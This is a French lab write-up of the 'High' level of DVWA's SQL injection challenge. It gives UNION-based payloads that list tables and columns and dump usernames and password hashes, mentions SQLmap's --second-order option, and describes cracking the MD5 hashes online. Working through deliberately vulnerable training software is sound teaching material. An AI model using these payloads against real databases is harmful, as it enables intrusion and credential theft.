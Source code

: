 # Niveau "High"

Un changement au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de la recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/a1dd1c57a6575a56ff5864b9dac6743f.png)

L'injection du caractère `"'"` retourne une erreur générique :

![](../../../../.gitbook/assets/03a2758c4de27662e8d49b251f3d11c4.png)

Le fait que l'erreur soit générique n'est pas vraiment gênant, car cela indique bien que le caractère spécial semble être traité comme du code et non comme faisant partie de la donnée. L'injection semble donc être toujours possible :

```sql
6' UNION SELECT 1,2 -- 
```

![](../../../../.gitbook/assets/65391a169a41499b078eabb505cb0762.png)

Récupération des noms des tables :

```sql
'6' UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/bd172c5f7f2447b1243ecd39d9e6992b.png)

Récupération des noms des colonnes :

```sql
'6' UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/d1ea95501c569208c5423279891f13e0.png)

Puis finalement des noms et empreintes des mots de passe des utilisateurs :

```sql
'6' UNION SELECT user,password FROM dvwa.users --  
```

![](../../../../.gitbook/assets/448bc597599a9c79565ffafaa5be8012.png)

L'erreur générique n'augmente pas réellement la difficulté du challenge par rapport au niveau "Low" mais la présence d'une seconde fenêtre peut empêcher les outils automatisés de fonctionner.

L'injection présente ici est une injection nommée "second ordre", et sans l'indiquer explicitement à l'outil il peut ne pas réussir à l'exploiter.

{% hint style="info" %}
Sous `SQLmap` il est possible d'utiliser l'option `--second-order` pour ce type d'injection
{% endhint %}

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](<../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7 (1).png>)

